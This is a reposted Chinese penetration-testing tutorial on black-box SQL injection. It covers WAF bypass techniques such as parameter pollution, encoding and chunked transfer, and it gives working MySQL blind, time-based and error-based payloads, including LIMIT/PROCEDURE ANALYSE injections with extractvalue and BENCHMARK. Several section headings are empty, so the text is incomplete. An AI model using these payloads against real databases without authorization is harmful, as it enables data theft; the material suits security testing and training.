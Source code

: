 # 转载
：  黑盒sql注入测试进阶篇

# 黑盒sql注入测试进阶篇

### 前言

本文主要讲述黑盒SQL注入测试思路，像一些注入原理语句就不去细说了，了解怎么测试就可以，因为现在遇到的都是无错误回显的注入，所以下面基本上都是用盲注还有绕waf思路来进行测试，像已经上线的系统有注入的很少，但是在给客户做系统上线前渗透测试的时候还是会发现很多的

### 思路

#### 数据溢出

插入大量垃圾数据或者多个参数来进行绕过

#### 参数污染

这个只在做系统上线前测试的时候遇到过，就是waf还有web服务器处理多个相同参数时的逻辑不一样，有的获取第一个有的获取第二个，有的全部获取。

例如某个注入点id=1，uesr()函数被过滤掉了，这样构造id=us&amp;id=er()来进行绕过

#### 各种编码

服务器可以识别，但是waf无法识别，例如IBM加密，二次编码，base64编码等，这个需要自己去测试

#### 修改请求方式

POST改为GET，http改为https

修改请求包改为上传文件的数据包来构造畸形数据包

请求url添加js白名单文件等等

#### 分块传输

```
这里要注意一下闭合方式，有的需要用括号去闭合
if(1=1,id,name) #当条件为真时按照id排序，为假时按照name排序
if(1=1,sleep(3),1)#当条件为真时发生延迟，为假时正常
if(1=1,cot(0),id)#当条件为真时发生报错，为假时正常
case when 1=1 then id else name end #当条件为真时按照id排序，为假时按照name排序
case when 1=1 then 1/0 else name end #当条件为真时报错，为假时按照name排序
大概思路就是这样，注数据就把语句替换就可以了
case when ascii(mid(user(),1,1))=11 then 1/0 else name end #遍历11 来判断user第一位
利用报错
regexp updatexml extractvalue 等函数
基本上没遇到过，好像低版本才可以，有兴趣可以自己去了解
```

#### 空格

#### or   and

#### 延时

###### strcmp (str1,str2):若所有的字符串均相同，则返回 0，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回 1

#### 注入语句

###### 当前用户：

###### current_user() system_user()

###### 当前数据库：

###### schema()

###### @@basedir ——mysql安装路径<br/> @@slave_load_tampdir ——临时文件夹路径<br/> @@datadir ——数据存储路径<br/> @@character_sets_dir ——字符集设置文件路径<br/> @@log_error ——错误日志文件路径<br/> @@pid_file ——pid-file文件路径

### order by注入

#### 测试过程

### limit 注入

```
格式：
limit m,n
--m是记录开始的位置，n是取n条数据
limit 0,1
--从第一条开始，取一条数据
```

(适用于5.0.0&lt;mysql&lt;5.6.6的版本)

```
SELECT field FROM table WHERE id &gt; 0 ORDER BY id LIMIT （注入点）
```

确认有注入点前面有 order by 关键字,是没法用union 的，在LIMIT后面可以跟两个函数，PROCEDURE 和 INTO，INTO除非有写入shell的权限，否则是无法利用的

报错注入

```
?id=1 procedure analyse(extractvalue(rand(),concat(0x7e,database())),1); 
```

时间型盲注

直接使用sleep不行，需要用BENCHMARK代替

```
?id=1 PROCEDURE analyse((select extractvalue(rand(),concat(0x7e,(IF(MID(database(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

### Oracle和DB2等数据库

#### 特点

具体可以查看这篇文章，写的比较详细[关于学习Oracle注入 - 先知社区](https://xz.aliyun.com/t/7897)

```
原文链接：https://www.freebuf.com/articles/web/385126.html
```

###### user_tables表：该表的table_name列存放着当前数据库的所有表

#### 判断函数

#### 数据外带

#### SQLite

